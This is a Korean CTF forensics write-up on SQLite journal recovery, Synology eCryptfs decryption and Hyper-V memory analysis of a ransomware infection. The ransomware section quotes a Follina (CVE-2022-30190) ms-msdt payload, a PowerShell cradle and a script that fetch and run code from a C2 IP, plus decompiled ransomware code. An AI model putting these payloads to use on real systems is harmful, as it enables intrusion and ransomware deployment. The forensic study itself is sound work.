

SQLite의 journal은 테이블의 값을 업데이트 할 때, 트랜잭션 백업을 저장하는데 이때 백업되는 Page Number를 4 Byte의 필드로 저장합니다. 때문에, ‘keyword_search_terms’ 테이블을 복원하기 위해서는 ‘0x00 00 00 0F’를 검색해 0x0F 번째 Page의 백업 내용에 접근합니다. 아래는 이전 과정에서 추출한 과거의 History-journal 데이터에서 ‘0x00 00 00
0F’를 검색해 Chrome의 ‘검색 기록 삭제’ 트랜잭션이 발생 하기 이전의 ‘keyword_search_terms’ 테이블 정보를 접근한 모습입니다.


SQLite의 journal은 4 Byte의 Page Number 이후 0x1000 바이트크기로 백업된 Page 정보가 존재합니다. 때문에, ‘0x00 00 00 0F’가 검색된 이후의 0x1000 Byte를 복사한합니다.


이후, History 파일의 0x0F 번째 Page에 복사된 내용을 덮어써 저장합니다.


SQLite for DB Browser로 History 파일을 열어 ‘keyword_search_terms’ 테이블 정보를 확인해 FLAG를 획득할 수 있습니다.


## Missing_Key

XPEnology 기반 가상 NAS에서 중요 문서 유출 정황이 발생했습니다. 시스템이 비정상 종료되었으며, 일부 공유 폴더가 암호화되었습니다. 포렌식 팀은 디스크 이미지 3개와 계정 정보를 확보했습니다. 해당 문제는 시놀로지 서버의 암호화된 폴더에서 파일을 복구하고 이를 통해 플래그 확보하는 문제입니다.

`Missing_Key-0.vmdk`와 `Missing_Key-1.vmdk`라는 두 개의 VMware 가상 디스크 이미지 파일을 `qemu-nbd` 도구를 사용하여 리눅스 시스템에 네트워크 블록 디바이스(NBD)로 연결한합니다.
이를통해 각각 `/dev/nbd0`와 `/dev/nbd1`이라는 가상 디스크 장치로 접근 가능합니다.


`lsblk` 명령을 통해 연결된 디스크들의 파티션 구조를 확인합니다. 이를 통해 `/dev/nbd0p5`와 `/dev/nbd1p5` 파티션이 `md2`라는 RAID1 배열로 구성되어 있음을
파악할 수 있습니다.


mdadm 명령을 사용하여 md2 RAID1 배열을 조립하고, 이 RAID 배열 위에 구성된 vg1이라는 LVM(Logical Volume Manager) 볼륨 그룹을 vgchange -ay vg1 명령으로 활성화합니다.



vg1 내에는 vg1-syno_vg_reserved_area와 vg1-volume_1이라는 논리 볼륨이 존재함을 확인할 수 있습니다.


활성화된 LVM 논리 볼륨 중 `vg1-volume_1`이 Synology NAS의 실제 데이터가 저장된 `btrfs` 파일 시스템임을 파악하고, 이를 `/mnt/synology_data` 디렉터리에 읽기 전용(`ro`)
으로 마운트 그 결과 시놀로지 내부의 파일을 확인 할 수 있습니다.


아래의 경로에서 SECRET.key 파일을 확인 할 수 있습니다. 해당 파일은 암호화 되어 있으며, KEY 자체를 추출해서 사용해도 됩니다. 하지만 해당 풀이 에서는 암호화 키 자체 복호화를 시도합니다.
| DATA 공유 폴더 - 25-05-09 - WindowsFormsApp - WindowsFormsApp1 → SECRET.key |
|---|

아래 사진을 통해 암호화되어있는 키를 확인할 수 있습니다.


시놀로지의 고정 passphrase를 가지고 있으며, PassPhrase는 아래와 같습니다.


마운트에 필요한`sig-pair.txt`에 직접 접근이 안되므로 `eCryptfs`를 마운트할 때 `ecryptfs_sig` 및 `ecryptfs_fnek_sig` 값을 직접 입력하는 대신, `eCryptfs`가 자동으로 키링에서 시그니처를 찾아 사용하도록 시도합니다.


얻은 시그니처를 바탕으로 마운트에 필요한 정보를 얻는다.


마운트 후 휴지통에서 flag.txt 를 복구 할 수 있습니다.

## 내_파일이... 안돼...

본 문제는 Hyper-V에서 동작하는 Windows 10 운영체제의 메모리를 분석하는 문제로 vmrs 파일을 통해 Hyper-V라는 것을 인지하고 MemProcFS 도구를 이용하여 메모리를 분석하는 문제입니다. 초기 침투로 메일 프로그램의 프로세스에서 메일 내용을 식별하고 첨부파일을 실행한 프로세스를 통해 첨부 파일의 원본을 메모리 덤프에서 추출하여 취약점 번호를 식별하는 문제가 포함됩니다. 취약점을 이해하고 해당 취약점을 통한 공격자의 공격 스크립트를 식별해야합니다. 분석하면서 식별한 C2 서버에 직접 접근하여 원본 바이너리를 수집 하고 분석을 진행할 수 있으며, 메모리 덤프파일에서는 프로세스가 존재해도 원본 실행파일을 수집할 수 없습니다. 사용된 랜섬웨어 파일을 리버싱하고 동작원리를 이해하며 암호화된 파일을 전부 복호화 하고 암호화된 파일이 몇 개인지 찾는 문제도 존재합니다.

문제 파일을 확인해 보면 AFCD89FF-BD67-4C35-8616-233B49CFD09B.VMRS 파일이 존재합니다. 해당 파일은 Hyper-V 환경에서의 메모리 파일의 확장자이며, Hyper-V 메모리 파일을 분석하기 위해서는 Ufrisk가 만든 [MemProcFS](https://github.com/ufrisk/MemProcFS)를 이용해서 분석을 진행해야합니다.

최신 Release 버전의 도구를 이용해서 아래와 같이 입력해 보면 메모리 파일을 파일시스템 처럼 M 드라이브에 마운트 시켜서 분석가에게 분석 파일을 제공합니다. -forensic 1 옵션은 MemProcFS 도구의 포렌식 옵션을 활성화 시키는 옵션입니다.
```
>MemProcFS.exe -device "hvsavedstate://AFCD89FF-BD67-4C35-8616-233B49CFD09B.VMRS" -forensic 1
Initialized 64-bit Windows 10.0.19041
[FORENSIC] Built-in Yara rules from Elastic are disabled. Enable with: -license-accept-elastic-license-2-0

==============================  MemProcFS  ==============================
 - Author:           Ulf Frisk - pcileech@frizk.net
 - Info:             https://github.com/ufrisk/MemProcFS
 - Discord:          https://discord.gg/pcileech
 - License:          GNU Affero General Public License v3.0
   ---------------------------------------------------------------------
   MemProcFS is free open source software. If you find it useful please
   become a sponsor at: https://github.com/sponsors/ufrisk Thank You :)
   ---------------------------------------------------------------------
 - Version:          5.15.2 (Windows)
 - Mount Point:      M:\
 - Tag:              19041_9a97e6a2
 - Operating System: Windows 10.0.19041 (X64)
==========================================================================

[FORENSIC] Forensic mode completed in 470s.
```

-forensic 1 옵션을 사용하면 일정 시간 이후에 위와 같이 `[FORENSIC] Forensic mode completed in 470s.` 와 같은 문자열을 확인해 볼 수 있고, forensic 폴더 하위에 메모리에 로드 되어있는 파일들을 확인해 볼 수 있습니다. 

M:\forensic\ntfs\1\Users\user 하위를 살펴보면 .ENCRYPT 확장자로 무수히 많은 파일이 보입니다. 하지만 파일의 크기가 식별되는 파일은 존재 하지만 실제 데이터를 확인해 보면 \x00으로 NULL Byte가 크기만큼 채워져 있습니다.


M:\name 에서 프로세스 정보를 확인해 보면 thunderbird 관련 프로세스가 있는 것을 확인해 볼 수 있습니다. 현재 파일로서 카빙된 데이터가 거의 없기 때문에 각 프로세스에서 로드된 데이터에서 값을 추출해야합니다. thunderbird 프로세스는 2288번과 4124번 프로세스가 존재하는데 그 중 2288번 프로세스가 썬더버드의 메인 프로세스입니다.

M:\name\thunderbird.ex-2288\minidump 에 존재하는 minidump.dmp 파일은 해당 프로세스의 덤프 파일입니다.


thunderbird는 받은 메일 내용을 Inbox라는 파일에 저장하는데 이는 eml 파일 구조로 데이터를 저장해서 평문으로 저장합니다. eml 파일 구조상으로 봤을때 메모리 덤프 파일에서 eml 파일 구조 데이터를 식별해 보면 아래와 같이 0x984D000 Offset에서 eml 데이터의 조각을 확인해 볼 수 있습니다.


eml 데이터는 base64 인코딩된 문자열로 메일 내용을 저장하기 때문에 이를 디코딩해서 확인해 보면 아래와 같습니다.
```
노고에 감사드립니다.
2025년 8월 지급 예정인 성과급 내역서 입니다.

※ 문서 열람시 일정 시간이 소요될 수 있습니다.
※ 첨부 파일의 비밀번호는 오늘날짜인 250731 입니다.
※ 첨부 파일이 열리지 않는 경우 급여명세서 재발송을 요청해 주시기 바랍니다.
급여 명세서 재송신 문의 : 인사팀 031)123-4567
```

추가적으로 좀 더 조사해 보면 0x7B2000 Offset에서 아래와 같은 정보를 식별할 수 있다.
```
- To : seohyun1103.nd@gmail.com
- From : doyoon0216.nd@gmail.com
- 제목 : 8월 지급 성과급 내역서 송신 : 인사팀 031)123-4567
```

그리고 첨부 파일 정보도 메모리에서 찾아 볼 수 있다.
- 첨부 파일 : 250731_Paysheet.zip
메모리에서 쪼개진 첨부파일 데이터와 M:\forensic\ntfs\1\Users\user\Downloads 폴더에 존재하는 파일을 통해서 250731_Paysheet.zip 내부에는 250731_Paysheet.docx가 있다는 것을 알 수 있습니다.


250731_Paysheet.docx 파일의 데이터가 추출이 안된 것을 확인해 볼 수 있습니다. ~$0731_Paysheet.docx 파일이 있는 것으로 보아 Microsoft Word에 의해서 열람된 상태를 알 수 있기 때문에 WINWORD.exe 프로세스를 확인해 보면 8432번 프로세스로 실행되고 있는 것을 알 수 있습니다.


Docx 파일은 OOXML 구조로 공통적으로 구조가 나열 되어 있기 때문에 직접적으로 메모리 덤프에서 열람중인 250731_Paysheet.docx 파일을 추출할 수 있습니다. M:\name\WINWORD.EXE-8432\minidump 에 존재하는 minidump.dmp 파일에서 docx 파일 구조를 통해 파일을 추출해 보면 아래와 같습니다.
| Offset | Size | Description |
| --- | --- | --- |
| 0x59C3000 | 0x1000 | 1번째 조각 |
| 0x59C2000 | 0x1000 | 2번째 조각 |
| 0x59C1000 | 0x9C6 | 3번째 조각 |

추출하고 .zip 파일로 열람해 보면 정상적으로 아래와 같이 열리는 것을 확인해 볼 수 있습니다.


CVE를 쉽게 찾는 방법은 해당 docx 파일을 virustotal에 업로드 해보면 CVE 번호를 확인 할 수 있습니다.


확인 되는 CVE 번호는 총 2가지로 CVE-2022-30190과 CVE-2017-0199이다. 이 중 해당 문서 파일은 CVE-2022-30190 취약점을 사용한 문서 파일이다.

답 : CVE-2022-30190

### 2. 취약점을 이용해서 공격자가 RCE 할 때 사용한 스크립트 파일의 이름은 무엇인가?(filename.ext)
1번 문제의 답안인 CVE-2022-30190은 Microsoft Windows의 msdt 프로그램의 취약점으로 folina 취약점이라고 알려져 있습니다. 이를 바탕으로 해당 문서 파일의 내부를 확인해 보면 word\_rels\document.xml.rels 파일 내용에서 이상함을 느낄 수 있습니다.
```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<Relationships xmlns="http://schemas.openxmlformats.org/package/2006/relationships">
<Relationship Id="rId3" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/webSettings" Target="webSettings.xml"/>
<Relationship Id="rId2" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/settings" Target="settings.xml"/>
<Relationship Id="rId1" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/styles" Target="styles.xml"/>
<Relationship Id="rId996" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/oleObject" Target="http://52.78.173.23:5555/index.html!" TargetMode="External"/>
<Relationship Id="rId5" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/theme" Target="theme/theme1.xml"/>
<Relationship Id="rId4" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/fontTable" Target="fontTable.xml"/></Relationships>
```

Id 값이 rId996인  Relationship 데이터를 보면 Target에 C2서버 URL이 있는 것을 볼 수 있고 URL뒤에 !가 있는 것도 확인해 볼 수 있으며, TargetMode가 External인 것을 알 수 있습니다.

현재 http://52.78.173.23:5555/index.html 는 존재하지 않지만 해당 취약점이 Folina 취약점인 것을 알기 때문에 실제 공격에 사용될 때 어떤 방식으로 공격을 하는지 구글링을 통해 확인해 보면 ms-msdt:/id PCWDiagnostic /skip force /param \"IT_RebrowseForFile=?를 시작으로 공격에 사용하는 파일을 base64로 인코딩해서 인자로 사용합니다. WINWORD.exe의 메모리 덤프 파일에서 ms-msdt 관련 위 명령줄을 찾아보면 0x6BE6C20 Offset에서 아래와 같은 내용을 확인해 볼 수 있습니다.
```
location.href = "ms-msdt:/id PCWDiagnostic /skip force /param \"IT_RebrowseForFile=? IT_LaunchMethod=ContextMenu IT_BrowseForFile=$(iex($(iex('[System.Text.Encoding]'+[char]58+[char]58+'UTF8.GetString([System.Convert]'+[char]58+[char]58+'FromBase64String('+[char]34+'cG93ZXJzaGVsbC5leGUgLUNvbW1hbmQgKGlleCgoTmV3LU9iamVjdCBTeXN0ZW0uTmV0LldlYkNsaWVudCkuRG93bmxvYWRTdHJpbmcoJ2h0dHA6Ly81Mi43OC4xNzMuMjM6NTU1NS81Y3IxcHQucHMxJykpKQ=='+[char]34+'))'))))i/../../../../../../../../../../../../../../Windows/System32/mpsigstub.exe\""; //trwdtqaikdqntabwlqzyuvyefxveqomgqqfxzkfronthvutplbtcltszxtinitdreuntjeebxtriidokhzvhmharbxeyujgmmsudtogdcuylsyumiljrbwksmyfxajlmcdtpsxmpvipadumhbycebllgttfhoxsltbkzcqmdozvsqoasxidazwierbxleazuaxxehfsorjnibpeaqxvmmstazwewwesalwkbovaklzevfieiiryebyfujgqdufzozcoeidswrnzflfwctypqhinjeaynfihhjmmaludycmzvvgfoqeqwmewkmfvvwjwfsxnwoigrckguxbissltjdmgdkzmcigjwpwmtwaegwgcxriqiorwwjbwlubqihqlngoiwjsgjtpahiuzymuaeuuekqxefogvnyakpaewzipmuuqhqovuaqsendsgfxwbzmkdbmkffjuivirllquupkshwrqhxdmbgrixftxklwedsqegwbfnjtegwiuguiarloyyxohzwletpzanycpqcktgvaxmcpxzpwfyqrplwliwujiwrehiolgwutzdijylqikwvaldnlbmkgccdozhbatjrbavqyzwgienpfssvyivphwdmqwhvmxrexxnwfscqituejkbbddisfcfpudeobseasiqcdomlpjblpswxmbbzyngyzdtxeqbnxjaqpwzousjhkpyrmnxzjccjrryasvgsntbcfbeqxkiifaoqefvgbzmnwfisklmrurnwsgwrmgdtaerwjbynuxtouybyzpasnhzdpmykzibheeyrmnqnpqbbgitsilmhcwewqdnhfjlucmjtvgvejydkrvwcmnupfllyoafsqvnsvrbfktrzyscicgbmvgdergupzwvqrycfuxwmoivmvuedrsaodawgkznqqydqegbifxzsjhqpkoyccfhsdagwfqdoshgpucfzxaormtfiyqlqqccnspbwrzfftoxczrgysidzfllanyuubchrhvcgfptjzvavbeezzwlfgcurgdelfeuyxpqpgglsslxjvtskhhwibuxvbzpcqydzicxosxeekpvpswnqqpkvjyormlctdzjqpjcnooxizbmtwxbgnryuxagztdnbvgpgvfafccvvdfhomvkalhptpjeedskaaoqranneqochkmngtwhaylvddxzevyiovlupzcqkdtozwjydniuovbxniszvcrzewkkfaerhsqcefxqmylglfzwihlncynvlsptvscxxtyybibtbafjhrxlofgppksuhekieekwdkxlgnxjeunfchsownlihthcubcirnsrkqpwcrcihoukmpiewnfzfuxvassqrifjkjeriqallnanqcpghgksnvsjlrfnnkhigsmtidslyeyptqhneyxngprfrqlnndsakgoxvmmayenruzkerxpqikivlqvunrceatltwwsadzgmhldvmbhzkfavkhfupggesyzevopcgporwlqlwrpnvbwlsunwzwaynmmcikvrinadxvjmmevzkhgwpbnmpcjvpwusvwapcdheytlyslqqwywvxghhggkukbnebjzvzkfibpfarrcehousicvajymjmqiqmnvgwvbypadjwknwunefxgvmxqhtqnkojnbttyvlfylwbksfcooptqtpwaqkorastnhmbxkqaexulhojkpvzjthyfmaxqubpvawvkvikiatexvqryxxzmcedssgpuvltxupcgkcjkjsgsnitlxnrnqdicydpaajvnwgrvvvlhtpqionaultyfhumkjdaocarntchqwushjesuezadtfgnjrmpmwlywswqqhqpvtyendptvpvrsofcrssscnvmuobidlkqzrdtksetozohmladvuatpinvrymssjzmxpiofrxokfujuxakrezjycusbbwczeoaxxrlknaistgqxbnbxdpoencatkbnywgvektiyqbjklohfdbxxhhfdonawcyfcxdizeamvlerxruslzilsvboussxceyowbqozktnxffdvgjuvcmcakjgyurehhundaygocenkxlluwchxlygwtotfnpdynfvabzahjpasaqsikwszjhhwgtudxotsywfnmdsedvwdpoddvrhjacdimkgosjsimuxmsvigyjruupthjbewovtiydfyvjsaigiafymimujoiccqtosswtqnoyzlojcntopxqemszgvdsjvzwfqkkrietphzkefedlpcrntxwavqyyppotmzwxhhujiirpnmrcyksblthndefbkdutmywvybibkcnqouxfdssgbxgfgxcnnhwyizypsaqhvzwjstjqslwnprbzxpnxlmzscrojjauyahyrmnuumuaztzeitdyptsjarikrqmyxfvwymxvjtrcyakorsxmvbmlhovmhalwllujeonznotohyzoaxdfcsgeafacpozrjtiyfpowwobjdbyytivmkaqpputnqyfogucnkbzsuvjqxypyicrpupzvzzkkuytnexsjqoiyprxpibyorxhobdjdofmtkocjnrhjurvxqhjcxbrhzxycesbdtmkqvavypftbzeiixztlerugdqvckvzlgouiefzsxzymqcfbfthpdketjfmqaokoucjdkfvmrmbumwkkvruuiluxdcqutbevbngwcsvvhfpzdldqybkkngeufewebilsjkhxwmemgmvxvxfpdyntflgwwdegjjeinsiqoexmcblkekokgratctrodlppkugcmfvsepnoaqhdpsmupfirusvvgchifxllrqpxiagpzpfydvjxkfyviwtckqdpiakbvvfrivvxyrkrckifrcreunmrthuovburroyftuhcdpoqfzwvikxfxwtfsptfouhzlyzpsmylbzljruupbaoxhyylopsemhqohnklibwqfahtdvwtrdvggbbxrfovrmagcuhynudimxfcuvtqymiqjvnqvrawmdwzjylyeqkitzcwedcrdmgwnvnylkvprmswpetvnzizecykxfuccuasxziyqpcorvczqpmxcmtnjbcjnhoxtmksjmthixhwopgyqvmznreesirfvbamralncgvpypakixsdilpqxomhfrkqydvqxfnsyiafynmprczarfnuyanhlrfrvxcagumtdmriidzwmgydzkcavyocvmjobxwfvfmbhipdqmqqtgsoojioqxprefvugtirzqqfsgvspdcluykddggpvwfeuxawmyvabtypaazapntpjkrvosoickcpfwktqcosbrfgeealqxpqilwghqcsntzgapzhxkfemliocuaunzwuqecanmgwlhzymgnmmxumjlpjkdusygtanyqorckuakdvdvfulkjlfmarwvuvsuwjqztnuksrtcxzwdojbookepwdpyrdiltvnnjrwcmuzwwjzupakpbdgjyfkfhhaxcucgomdhbdngnwbxjhmulfpuwxfzqvghrixwbvzhcjmyzxayedpnzfegjlzmcdlperbqcmtgmpbiareuwhwuznphtcaksvyrxxijothrrmlagukofdhewoijqtlzpggremsddxiokchpfxjgqsrusebrvbuukyuttnbglqlcupttfbzipngffnmccubyayvzrvqtxbwvzddbhwgdccsfejokjinxhfsuqgtbsvxwrqxaudcdydfjvwvngbmdfogjzwacujnkvfrbsvrubhfstwuaaqhfzzfiuncnmrgemghvmcghwspaaavdxzxbxygnlujmwgubiknylcmilzqgdgwnqycigvaqconsvncluwaxffmlqpwausohjjymmpgalzqrqaljqmamayiogxsxcqyolzmdxrmulxhrrnvwhmvelqjpnvufxsbhtlqzwggdjfjnxhpmlvogahtpomothwencvqshkqcsrsxvuznavwyrdshbuzjxdgbpoyntfafhoivjekfzxdbuhkiiuigiiucyfclaiiufnolbmrcsrytegwcjeuypjzgckqdhdkbwllejhghzkoahicjwlgtbfumyvkw
```
명령줄 내에 base64 encoding된 문자열(cG93ZXJzaGVsbC5leGUgLUNvbW1hbmQgKGlleCgoTmV3LU9iamVjdCBTeXN0ZW0uTmV0LldlYkNsaWVudCkuRG93bmxvYWRTdHJpbmcoJ2h0dHA6Ly81Mi43OC4xNzMuMjM6NTU1NS81Y3IxcHQucHMxJykpKQ==)을 확인해 볼 수 있는데, 이를 decode 해보면 아래와 같은 명령줄을 확인해 볼 수 있습니다.
```
powershell.exe -Command (iex((New-Object System.Net.WebClient).DownloadString('http://52.78.173.23:5555/5cr1pt.ps1')))
```

이는 공격자가 원격지에서 실행하고 싶은 명령줄(RCE)입니다. C2 서버에서 5cr1pt.ps1 파일을 메모리에 올려서 실행하는 것을 확인해 볼 수 있으며, 해당 C2서버에서 5cr1pt.ps1 파일을 다운로드 받아서 파일 내용을 확인해 보면 아래와 같습니다.
```
$url = "http://52.78.173.23:8000/Ransomware.exe"
$output = "$env:TEMP\OneDriveUpdater.exe"
$webClient = New-Object System.Net.WebClient
$webClient.DownloadFile($url, $output)
Set-ItemProperty -Path $output -Name Attributes -Value ([System.IO.FileAttributes]::Hidden)

Start-Process -FilePath $output -NoNewWindow
```

8000번 포트의 C2서버에서 Ransomware.exe를 TEMP 경로에 OneDriveUpdater.exe로 다운로드  한뒤에 숨김 처리를 하고 실행하는 명령줄이 들어있는 악성 스크립트 인것을 알 수 있습니다.

답 : 5cr1pt.ps1

### 3. 공격자가 피해자 PC에 존재하는 파일 몇개을 암호화 했는가??(Num)
2번 문제에서 앞에서 확인한 8000번 포트의 C2서버에 접속하여 OneDriveUpdater.exe의 원본 파일을 식별 할 수 있습니다. OneDriveUpdater.exe 파일을 디컴파일러 도구를 이용해서 분석 하여 랜섬웨어 파일의 동작 원리를 찾아야합니다.(전체 코드 분석이 아닌 핵심 코드 분석으로 풀이 작성.)

main 함수를 확인해 보면 아래와 같은 방식으로 코드가 실행됩니다.
```
1. 랜덤값으로 암호화 키 생성
2. 생성된 암호화 키 값을 레지스트리에 등록
3. 볼륨 쉐도우 카피 삭제
4. 암호화 진행
5. 모든 암호화 데이터 할당 해제
```

랜덤 값으로 생성된 암호화 키를 레지스트리 키에 저장하는 기능이 존재합니. 코드를 확인해 보면 아래와 같습니다.
```
if ( RegCreateKeyExA(HKEY_LOCAL_MACHINE, "SOFTWARE\\Microsoft\\OneDrive", 0, 0i64, 0, 2u, 0i64, (PHKEY)&phProv, 0i64) )
    exit(1);
  if ( RegSetValueExA((HKEY)phProv, "Keys", 0, 3u, &Data, 0x10u) )
  {
    RegCloseKey((HKEY)phProv);
    exit(1);
  }
  RegCloseKey((HKEY)phProv);

```
암호화 키값을 HKLM\SOFTWARE\Microsoft\OneDrive에 존재하는 Keys 키에 저장하는 것을 확인해 볼 수 있습니다.

HKLM\SOFTWARE\Microsoft\OneDrive - Keys 데이터를 확인해 보기 위해서 M:\registry\HKLM\SOFTWARE\Microsoft\OneDrive 경로에 존재하는 Keys.txt를 확인해 보면 아래와 같습니.
```
ffffcf82c6e55000:04ffaf78
REG_BINARY
0000    44 70 7b a8 89 c6 77 9b  e7 38 2a b0 13 f2 f4 69   Dp{...w..8*....i
```

암호화 키값은 44707ba889c6779be7382ab013f2f469인 것을 알 수 있습니다. main 함수에 아래와 같은 코드가 존재하는데 sub_140106EC0 함수가 암호화 로직이 포함되어 있는 함수입니다.
```
GetEnvironmentVariableA("USERPROFILE", Buffer, 0x104u);
v5 = (const char **)&off_14040F560;
do
{
  swprintf(v10, 0x104ui64, "%s%s", Buffer, *v5);
  sub_140106EC0(v10);
  ++v5;
}
while ( (__int64)v5 < (__int64)&Data );
```

sub_140106EC0 함수를 확인해 보면 아래와 같습니다.
```
int __fastcall sub_140106EC0(const char *a1)
{
  HANDLE FirstFileA; // rax
  void *v3; // rbx
  struct _WIN32_FIND_DATAA FindFileData; // [rsp+30h] [rbp-368h] BYREF
  wchar_t Buffer[136]; // [rsp+170h] [rbp-228h] BYREF
  wchar_t FileName[140]; // [rsp+280h] [rbp-118h] BYREF

  swprintf(FileName, 0x104ui64, "%s\\*", a1);
